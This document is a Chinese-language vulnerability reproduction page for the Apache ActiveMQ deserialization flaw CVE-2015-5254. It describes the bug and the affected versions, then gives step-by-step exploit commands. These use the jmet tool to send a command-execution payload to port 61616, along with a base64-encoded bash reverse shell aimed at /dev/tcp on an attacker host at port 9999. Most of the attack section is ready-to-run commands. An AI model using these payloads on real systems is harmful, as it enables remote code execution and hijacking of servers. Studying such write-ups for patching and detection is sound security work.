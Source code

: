 ```yaml
---
Title: Apache ActiveMQ 反序列化漏洞 CVE-2015-5254
---
```


# Apache ActiveMQ 反序列化漏洞 CVE-2015-5254

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

<a-checkbox checked>Apache ActiveMQ 5.13.0之前5.x版本</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="首先下载 jmet https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar" description="" showIcon>
</a-alert>

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成`/tmp/vuln`的 payload

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/vuln" -Yp ROME xxx.xxx.xxx.xxx 61616
```

访问 `http://xxx.xxx.xxx.xxx:8161/admin/browse.jsp?JMSDestination=event `可以看到多了一条消息队列

![image-20220308145025293](/assets/PeiQi-Wiki/img/image-20220308145025293.png)

点击这个信息触发文件创建

![image-20220308145111363](/assets/PeiQi-Wiki/img/image-20220308145111363.png)

成功执行命令创建文件，也可以创建一个`反弹shell`的payload

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME xxx.xxx.xxx.xxx 61616
```

同样点击消息队列会触发命令执行

![image-20220308145310216](/assets/PeiQi-Wiki/img/image-20220308145310216.png)